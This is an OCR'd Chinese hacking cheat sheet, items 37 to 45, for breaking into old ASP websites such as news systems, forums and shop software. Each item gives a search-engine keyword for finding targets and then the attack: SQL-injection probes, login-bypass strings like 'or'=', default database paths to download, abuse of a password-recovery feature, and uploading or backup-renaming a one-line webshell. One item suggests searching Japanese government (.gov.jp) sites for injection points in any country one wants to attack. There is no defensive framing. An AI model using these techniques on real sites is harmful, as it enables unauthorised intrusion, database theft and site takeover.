 37.
关键字:Powered by:QCDN_NEWS
随便扫遍文章加一个' ,来试探注入点
后台地址:admin_index.asp

38.
入侵雷池新闻发布系统
关键字:leichinews
去掉leichinews后面的.
打上:admin/uploadPic.asp?actionType=mod&picName=xuanran.asp
再上传马.....
进访问uppic anran.asp 登陆马.

39.
关键字:Power System Of Article Management Ver 3.0 Build 20030628
默认数据库:databaseyiuwekdsodksldfslwifds.mdb
后台地址:自己扫描!

40.
一、通过GOOGLE搜索找大量注入点
关键字：asp?id=1 gov.jp/ asp?id=
页数：100
语言：想入侵哪个国家就填什么语言吧

41.
关键字：Powered by:94KKBBS 2005
利用密码找回功能 找回admin
提问:ddddd 回答:ddddd

42.
关键字:inurl:Went.asp
后台为manage/login.asp
后台密码: 'or'=' 或者 'or''=''or' 登录　进入
默认数据库地址:Database/DataShop.mdb

43.
关键字:****** inurl:readnews.asp
把最后一个/改成%5c ,直接暴库,看密码,进后台
随便添加个新闻 在标题输入我们的一句话木马

44.
工具:一句话木马
BBsXp 5.0 sp1 管理员猜解器
关键词:powered by bbsxp5.00
进后台,备份一句话马!

45.
关键字：程序核心：BJXSHOP网上开店专家
后台:/admin

有点老了...自己看看吧...

